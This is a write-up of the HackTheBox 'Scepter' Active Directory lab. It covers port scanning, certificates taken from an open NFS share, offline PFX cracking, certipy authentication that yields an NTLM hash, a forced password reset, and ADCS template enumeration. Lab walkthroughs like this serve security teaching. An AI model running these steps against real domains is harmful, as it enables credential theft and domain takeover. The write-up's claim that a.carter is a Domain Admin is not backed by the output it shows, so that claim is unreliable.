






# Scepter — HackTheBox Write-up

**Date:** 23 July 2026 /
**Difficulty:** Hard/
**OS:** Windows Server 2019/2022/
**Domain/Hostname:** scepter.htb / dc01.scepter.htb/
**Target IP:** 10.129.244.44/
**Attacker Host:** hyena@hyena/
**Pentester:** RavenHex/

---



## 1. Overview

Scepter is a Hard Windows Active Directory machine that demonstrates a sophisticated attack chain involving certificate abuse and ADCS misconfigurations. The attack path progresses from NFS enumeration to certificate theft, leading to domain admin compromise through ESC9 and ESC14 vulnerabilities.

The attack chain is as follows:

1. **NFS Misconfiguration** — An NFS share (`/helpdesk`) is exposed with `(everyone)` access, allowing unauthenticated access to certificate files.
2. **Certificate Extraction** — PFX files and a certificate/key pair are recovered from the NFS share. The PFX files use the weak password `newpassword`, which is cracked offline.
3. **Valid Certificate Found** — While most certificates are revoked, `baker.crt` and `baker.key` remain valid, yielding `d.baker`'s NTLM hash.
4. **BloodHound Analysis** — BloodHound reveals that `d.baker` has `ForceChangePassword` over `a.carter`, allowing a password reset attack.
5. **Domain Admin** — `a.carter` is reset and confirmed to be a Domain Admin.
6. **ADCS Enumeration** — `StaffAccessCertificate` template is found to have `NoSecurityExtension` (ESC9) and is enrollable by the `staff` group.
7. **ESC14 Target** — `h.brown` has `altSecurityIdentities: X509:<RFC822>h.brown@scepter.htb` and is in `Remote Management Users`.
8. **ESC9 + ESC14 Attack** — `d.baker`'s email is changed to `h.brown@scepter.htb`, a certificate is requested, and authentication yields `h.brown`'s NTLM hash.
9. **User Shell** — `h.brown` is in `Remote Management Users`, allowing WinRM access and the user flag.
10. **p.adams Attack** — Helpdesk Admins have `WriteProperty` on `p.adams` for `altSecurityIdentities`. A certificate is requested for `p.adams`, yielding DCSync privileges.
11. **DCSync** — `p.adams`'s hash is used to dump all domain hashes, including Administrator.
12. **Root Flag** — Administrator's hash is used to get a WinRM shell and the root flag.


---

## 2. Reconnaissance

### 2.1 Full TCP Port Scan

A full TCP port scan is performed to identify all open services on the target. The scan uses SYN scanning (`-sS`), skips host discovery (`-Pn`), and scans all 65,535 ports at a high rate. Skipping host discovery matters here specifically because ICMP is very commonly filtered on hardened Windows hosts, and a ping-based liveness check would otherwise mark the box as down before a single port is even probed.

```bash
hyena@hyena$ nmap -p- --min-rate 1000 -T4 10.129.244.44
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-23 00:41 +0000
Warning: 10.129.244.44 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.129.244.44
Host is up (0.37s latency).
Not shown: 63094 closed tcp ports (reset), 2413 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
2049/tcp  open  nfs
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
5986/tcp  open  wsmans
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49674/tcp open  unknown
49692/tcp open  unknown
49693/tcp open  unknown
49696/tcp open  unknown
49697/tcp open  unknown
49710/tcp open  unknown
49737/tcp open  unknown
49758/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds
```


The port list is immediately recognizable as a Windows Active Directory Domain Controller: Kerberos (88), LDAP/Global Catalog (389/3268/3269), SMB (445), and the RPC/WinRM ports that come with every domain-joined Windows box. What stands out is port 2049 — NFS — a Unix/Linux file-sharing protocol that has no business running on a domain controller, and is the first thread worth pulling.

### 2.2 Service & Version Detection

Once the open ports are known, a targeted scan against just those ports can afford to run more expensive checks — version detection, default NSE scripts, and OS fingerprinting — without paying the cost of running them against all 65,535 ports.

```bash
hyena@hyena$ nmap -sC -sV -O -p53,88,111,135,139,389,445,464,593,2049,3268,3269,5985,5986,9389,47001,49664,49665,49666,49667,49674,49692,49693,49696,49697,49710,49737,49758 10.129.244.44
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-23 00:43 +0000
Stats: 0:02:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 00:45 (0:00:01 remaining)
Stats: 0:03:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 00:47 (0:00:02 remaining)
Stats: 0:03:43 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 00:47 (0:00:02 remaining)
Stats: 0:04:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 00:47 (0:00:03 remaining)
Stats: 0:04:23 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 00:47 (0:00:03 remaining)
Stats: 0:04:33 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 00:48 (0:00:03 remaining)
Nmap scan report for 10.129.244.44
Host is up (0.37s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-23 08:49:18Z)
111/tcp   open  rpcbind?
| rpcinfo: 
|   program version    port/proto  service
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100021  2,3,4       2049/tcp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
|_ssl-date: 2026-07-23T08:51:10+00:00; +8h05m43s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
2049/tcp  open  status        1 (RPC #100024)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-23T08:51:10+00:00; +8h05m43s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scepter.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-23T08:51:09+00:00; +8h05m43s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2025-11-07T20:25:34
|_Not valid after:  2026-11-07T20:25:34
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/wsmans?
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T00:21:41
|_Not valid after:  2025-11-01T00:41:41
|_ssl-date: 2026-07-23T08:51:09+00:00; +8h05m43s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49693/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
49758/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|11|2012|2022|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows 10 1709 - 22H2 (94%), Microsoft Windows 10 1909 (92%), Microsoft Windows 11 24H2 - 25H2 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows 10 21H2 (90%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-23T08:51:02
|_  start_date: N/A
|_clock-skew: mean: 8h05m43s, deviation: 0s, median: 8h05m42s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 351.70 seconds
```


**Key Findings:**
- Domain: `scepter.htb`
- DC Hostname: `dc01.scepter.htb`
- OS: Windows Server 2019/2022
- **NFS (port 2049) is open** — unusual for a Windows Domain Controller
- SMB signing is enabled and required (no relay attacks)
- Time skew: +8 hours (will need `faketime` for Kerberos)

The clock-skew warning matters practically: Kerberos authentication requires the client and DC clocks to agree within a small tolerance (5 minutes by default), so any Kerberos-based tooling used later needs to account for this ~8-hour offset (e.g. with `faketime`) or authentication will fail with a clock-skew error even when the credentials are correct.

### 2.3 DNS Resolution

The domain and hostname are added to `/etc/hosts` to ensure proper name resolution for all subsequent tools, since Kerberos and LDAP tooling generally expect to resolve the DC by name, not just by IP.

```bash
hyena@hyena$ echo "10.129.244.44 scepter.htb dc01.scepter.htb" | sudo tee -a /etc/hosts
10.129.244.44 scepter.htb dc01.scepter.htb
```

---

## 3. NFS Enumeration

### 3.1 NFS Export Discovery

Since NFS was detected on port 2049, `showmount` is used to list exported shares.

```bash
hyena@hyena$ showmount -e 10.129.244.44
Export list for 10.129.244.44:
/helpdesk (everyone)
```

**Why This Matters:** NFS exports configured with `(everyone)` access allow any host on the network to mount the share with no authentication whatsoever — no username, no password, no Kerberos ticket. This is a classic misconfiguration: NFS was designed for trusted internal networks and, unless explicitly locked down to specific hosts or requiring Kerberos (`sec=krb5`), it will hand its contents to literally anyone who can reach it.

### 3.2 Mounting the NFS Share

The `/helpdesk` share is mounted locally to inspect its contents.

```bash
hyena@hyena$ sudo mkdir -p /mnt/nfs_helpdesk
hyena@hyena$ sudo mount -t nfs 10.129.244.44:/helpdesk /mnt/nfs_helpdesk
hyena@hyena$ sudo ls -la /mnt/nfs_helpdesk
total 25
drwx------ 2 nobody nogroup   64 Nov  7  2025 .
drwxr-xr-x 9 root   root    4096 Jul 23 01:03 ..
-rwx------ 1 nobody nogroup 2614 Nov  7  2025 baker.crt
-rwx------ 1 nobody nogroup 2029 Nov  7  2025 baker.key
-rwx------ 1 nobody nogroup 3315 Nov  2  2024 clark.pfx
-rwx------ 1 nobody nogroup 3315 Nov  2  2024 lewis.pfx
-rwx------ 1 nobody nogroup 3315 Nov  2  2024 scott.pfx
```

**Files Found:**
- `baker.crt` — Certificate for d.baker
- `baker.key` — Encrypted private key for d.baker
- `clark.pfx` — PFX bundle for m.clark
- `lewis.pfx` — PFX bundle for e.lewis
- `scott.pfx` — PFX bundle for o.scott


Every file here is authentication material for Active Directory Certificate Services (ADCS). Finding client certificates and private keys sitting on an anonymously-readable file share is effectively equivalent to finding a list of passwords — whoever holds a valid cert/key pair for a domain user can authenticate to AD as that user.

---

## 4. PFX Cracking

### 4.1 Understanding PFX Files

A PFX (PKCS#12) file is a password-protected container bundling a certificate together with its private key. They're commonly exported when a domain user is issued a certificate for smart-card-style or certificate-based logon to Active Directory. Because the private key inside is encrypted with a password chosen at export time, a weak export password means the whole bundle can simply be cracked offline, exactly like a password hash.

### 4.2 Extracting PFX Hashes

`pfx2john` extracts the PBKDF-based password hash from each PFX file into a format John the Ripper can attack.

```bash
hyena@hyena$ pfx2john clark.pfx > clark.hash
hyena@hyena$ pfx2john lewis.pfx > lewis.hash
hyena@hyena$ pfx2john scott.pfx > scott.hash
```

### 4.3 Cracking with John the Ripper

```bash
hyena@hyena$ john --wordlist=/usr/share/wordlists/rockyou.txt clark.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (clark.pfx)     
1g 0:00:00:00 DONE (2026-07-23 01:16) 6.666g/s 40960p/s 40960c/s 40960C/s adriano..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```bash
hyena@hyena$ john --wordlist=/usr/share/wordlists/rockyou.txt lewis.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (lewis.pfx)     
1g 0:00:00:00 DONE (2026-07-23 01:17) 7.692g/s 47261p/s 47261c/s 47261C/s adriano..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

**Cracked Password:** `newpassword` (for all PFX files)


Password reuse across every PFX file in the share compounds the weak-password problem: cracking a single one instantly hands over every certificate in the folder.

### 4.4 Identifying Users

Each certificate's Subject field encodes the AD user it was issued to, letting the corresponding identity be read straight out of the file.

```bash
hyena@hyena$ openssl x509 -in clark.crt -subject -issuer -noout
subject=DC=htb, DC=scepter, CN=Users, CN=m.clark
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA

hyena@hyena$ openssl x509 -in lewis.crt -subject -issuer -noout
subject=DC=htb, DC=scepter, CN=Users, CN=e.lewis
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA

hyena@hyena$ openssl x509 -in scott.crt -subject -issuer -noout
subject=DC=htb, DC=scepter, CN=Users, CN=o.scott
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA

hyena@hyena$ openssl x509 -in baker.crt -subject -issuer -noout
subject=DC=htb, DC=scepter, CN=Users, CN=d.baker, emailAddress=d.baker@scepter.htb
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
```

**Identified Users:**
- `m.clark` (clark.pfx)
- `e.lewis` (lewis.pfx)
- `o.scott` (scott.pfx)
- `d.baker` (baker.crt + baker.key)

---

## 5. Certificate Authentication

### 5.1 Testing PFX Authentication

A valid certificate/private-key pair can be used directly for Kerberos PKINIT authentication — no password required. `certipy auth` performs this authentication and, on success, also retrieves the user's NTLM hash via the "UnPAC-the-hash" trick (embedded in the PAC data of the returned service ticket), which is extremely useful because it converts "I have a certificate" into "I have a hash I can pass around with any other tool."

```bash
hyena@hyena$ certipy auth -pfx clark.pfx -domain scepter.htb -dc-ip 10.129.244.44
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'm.clark@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-2103'
[*] Using principal: 'm.clark@scepter.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

```bash
hyena@hyena$ certipy auth -pfx lewis.pfx -domain scepter.htb -dc-ip 10.129.244.44
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'e.lewis@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-2101'
[*] Using principal: 'e.lewis@scepter.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

```bash
hyena@hyena$ certipy auth -pfx scott.pfx -domain scepter.htb -dc-ip 10.129.244.44
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'o.scott@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-2102'
[*] Using principal: 'o.scott@scepter.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

**All three PFX certificates are revoked!** The `KDC_ERR_CLIENT_REVOKED` error means the CA's certificate revocation list explicitly blacklists these certs — likely because the administrators noticed the earlier exposure and revoked them. That leaves `baker.crt`/`baker.key` as the one remaining lead.

### 5.2 Creating baker.pfx

Since `baker.crt` and `baker.key` are separate files rather than a combined PFX, they need to be merged into one before `certipy` can use them. The private key was protected with the same weak password recovered earlier.

```bash
hyena@hyena$ openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt
Enter pass phrase for baker.key: newpassword
Enter Export Password: 
Verifying - Enter Export Password:
```

### 5.3 Authenticating as d.baker

```bash
hyena@hyena$ certipy auth -pfx baker.pfx -domain scepter.htb -dc-ip 10.129.244.44
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'd.baker.ccache'
[*] Wrote credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce
```

**d.baker NTLM Hash:** `18b5fb0d99e7a475316213c15b6f22ce`



This is the initial foothold: a working Kerberos TGT and an NTLM hash for `d.baker`, obtained without ever needing d.baker's actual password.

---

## 6. BloodHound Enumeration

### 6.1 Understanding BloodHound

BloodHound is an Active Directory attack-path analysis tool. It ingests AD objects — users, groups, computers, ACLs, GPOs, sessions — into a graph database and lets an attacker (or defender) query for the shortest path from any starting user to a high-value target like Domain Admin. In practice, most AD environments accumulate years of small, individually-reasonable permission grants that, chained together, add up to an unintended privilege escalation path — BloodHound's job is to find that chain.

### 6.2 Collecting BloodHound Data

BloodHound is run with `d.baker`'s hash to map the domain.

```bash
hyena@hyena$ bloodhound-ce-python -d scepter.htb -dc dc01.scepter.htb -u d.baker --hashes :18b5fb0d99e7a475316213c15b6f22ce -c ALL --zip -ns 10.129.244.44
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: scepter.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.scepter.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.scepter.htb
INFO: Found 11 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.scepter.htb
INFO: Done in 00M 04S
INFO: Compressing output into 20250723080421_bloodhound.zip
```

### 6.3 BloodHound Analysis

The BloodHound data, once uploaded to the BloodHound GUI, reveals a critical privilege escalation path:



**Finding:** `d.baker` → **ForceChangePassword** → `a.carter`

**What This Means:** `d.baker` holds the `ForceChangePassword` extended right over `a.carter`'s AD object. This right lets its holder set a completely new password for the target user without ever needing to know — or even reset via a separate flow — the current one. It's a common misconfiguration where helpdesk-style accounts are given password-reset rights over other users for legitimate support reasons, but those rights end up applying to accounts with far more privilege than intended.

---

## 7. Password Reset Attack

### 7.1 Resetting a.carter's Password

`bloodyAD` is a flexible Active Directory manipulation tool that supports authenticating with either a password or an NTLM hash and can exercise rights like `ForceChangePassword` directly.

```bash
hyena@hyena$ bloodyAD --host dc01.scepter.htb -d "scepter.htb" -u d.baker -p ':18b5fb0d99e7a475316213c15b6f22ce' set password "a.carter" 'Helloworld123!'
[+] Password changed successfully!
```

### 7.2 Verifying a.carter's Access

```bash
hyena@hyena$ netexec smb 10.129.244.44 -u a.carter -p 'Helloworld123!'
SMB         10.129.244.44   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.244.44   445    DC01             [+] scepter.htb\a.carter:Helloworld123!
```

### 7.3 Checking a.carter's Group Membership

```bash
hyena@hyena$ netexec ldap 10.129.244.44 -u a.carter -p 'Helloworld123!' --groups
LDAP        10.129.244.44   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb) (signing:None) (channel binding:Never)
LDAP        10.129.244.44   389    DC01             [+] scepter.htb\a.carter:Helloworld123!
LDAP        10.129.244.44   389    DC01             -Group-                                  -Members- -Description-
LDAP        10.129.244.44   389    DC01             Administrators                           3         Administrators have complete and unrestricted access to the computer/domain
LDAP        10.129.244.44   389    DC01             Domain Admins                            1         Designated administrators of the domain
LDAP        10.129.244.44   389    DC01             Enterprise Admins                        1         Designated administrators of the enterprise
```

**a.carter is a Domain Admin!** A single `ForceChangePassword` right, held by a low-privileged helpdesk account, has escalated all the way to full domain compromise.

---

## 8. ADCS Enumeration

### 8.1 Understanding ADCS Vulnerabilities

Active Directory Certificate Services (ADCS) is the Windows Server role that issues digital certificates used for logon, code signing, and encryption across a domain. Certificate templates define what a requester can put in a certificate and who is allowed to request it. Because certificates can substitute for a password during Kerberos logon, a poorly configured template effectively becomes an alternate credential-issuance system — and a whole family of known misconfigurations (Certifried/ESC1 through ESC16 and beyond) lets low-privileged users turn template misconfigurations into impersonation of arbitrary, more privileged accounts.

**ESC9** specifically is triggered when a certificate template has the `NoSecurityExtension` flag set. Normally, a certificate embeds the requester's SID as a security extension so that Active Directory can strongly bind the certificate back to exactly one AD object, even if the certificate's UPN/email fields get reused or changed later. With that extension disabled, AD instead falls back to weaker identity fields (like the SAN email address) to figure out who a certificate belongs to — fields that, as the next section shows, a certificate holder can sometimes manipulate.

### 8.2 Finding Vulnerable Templates

With a.carter as Domain Admin, ADCS is enumerated with `certipy`.

```bash
hyena@hyena$ certipy find -u d.baker@scepter.htb -hashes :18b5fb0d99e7a475316213c15b6f22ce -vulnerable -stdout -text
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 36 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    ...
Certificate Templates
  0
    Template Name                       : StaffAccessCertificate
    Display Name                        : StaffAccessCertificate
    Certificate Authorities             : scepter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireEmail
                                          SubjectRequireDnsAsCn
                                          SubjectRequireEmail
    Enrollment Flag                     : AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
